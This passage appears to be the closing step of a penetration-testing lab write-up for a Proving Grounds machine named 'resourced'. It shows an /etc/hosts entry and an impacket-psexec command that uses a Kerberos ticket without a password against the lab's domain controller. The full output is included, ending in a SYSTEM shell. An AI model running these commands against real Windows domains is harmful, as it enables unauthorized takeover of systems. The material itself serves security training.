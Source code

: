 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/14bc10fd-cc94-4082-bbec-3042a16f9c54)

add `192.168.213.175 resourcedc.resourced.local` to `/etc/hosts` file, 

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/resourced]
└─$ impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.213.175
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Requesting shares on resourcedc.resourced.local.....
[*] Found writable share ADMIN$
[*] Uploading file zDOyiifl.exe
[*] Opening SVCManager on resourcedc.resourced.local.....
[*] Creating service yWTK on resourcedc.resourced.local.....
[*] Starting service yWTK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2145]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami 
nt authority\system

C:\Windows\system32> 
```
login using psexec as admininistrator without password. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/43943eb1-aa71-49fe-b7be-d20916b14c67)

And we are through 🙂
